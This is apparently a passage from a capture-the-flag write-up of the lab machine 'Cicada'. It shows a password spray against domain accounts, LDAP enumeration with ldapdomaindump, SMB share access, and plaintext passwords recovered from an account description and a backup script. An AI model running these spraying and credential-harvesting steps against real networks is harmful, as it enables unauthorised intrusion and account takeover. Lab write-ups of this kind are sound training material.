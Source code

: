 `./brute_login.sh`
```
querying user: john.smoulder  
session setup failed: NT_STATUS_LOGON_FAILURE  
querying user: sarah.dantelia  
session setup failed: NT_STATUS_LOGON_FAILURE  
querying user: michael.wrightson  
Try "help" to get a list of possible commands.  
david.orelious: command not found  
emily.oscars: command not found
```

user `michael.wrightson` does not fail. let's try that.

Looks like we still can't access the `DEV` share with this, so lets dump the domain information instead with `ldapdomaindump`

`ldapdomaindump ldap://cicada.htb -u "CICADA\\michael.wrightson" -p "Cicada\$M6Corpb*@Lp#nZp\!8"`

This leads to the creation of a ton of files. Let's check the HTML ones with `firefox *.html`

in the `domain_users.html` and `domain_users_by_group.html` file we find the password for the user `CICADA\david.orelious` in their account description: 

```
Just in case I forget my password is aRt$Lp#7t*VQ!3
```

Let's try using this and access the DEV share:

`smbclient -U "CICADA/david.orelious%aRt\$Lp#7t*VQ\!3" //cicada.htb/DEV`
```
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 18:01:39 2024
  ..                                  D        0  Thu Mar 14 17:51:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 22:58:22 2024

                4168447 blocks of size 4096. 51948 blocks available
```

`Backup_script.ps1`
```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

We now have the password for another user `CICADA\emily.oscars`: `Q!3@Lp#M6b*7t*Vt`
